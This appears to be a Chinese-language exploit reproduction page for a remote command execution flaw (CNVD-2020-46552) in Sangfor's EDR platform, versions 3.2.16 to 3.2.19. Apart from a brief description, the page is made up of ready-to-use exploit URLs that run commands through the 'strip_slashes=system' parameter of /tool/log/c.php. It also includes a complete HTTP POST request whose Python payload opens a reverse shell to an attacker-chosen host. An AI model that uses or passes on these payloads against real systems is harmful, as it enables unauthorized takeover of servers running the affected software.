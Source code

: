 # 深信服EDR远程命令执行 CNVD-2020-46552

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，可向目标服务器发送恶意构造的HTTP请求，从而获得目标服务器的权限，实现远程代码控制执行。

## 影响版本

> [!NOTE]
>
> EDR v3.2.16
>
> EDR v3.2.17
>
> EDR v3.2.19

## 漏洞复现

```
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&limit=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&host=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&path=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&row=whoami
```

![](./image/sxf-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

#### 反弹shell

```
POST /tool/log/c.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 256

strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

向 **/tool/log/c.php**  POST以下数据即可

```
strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

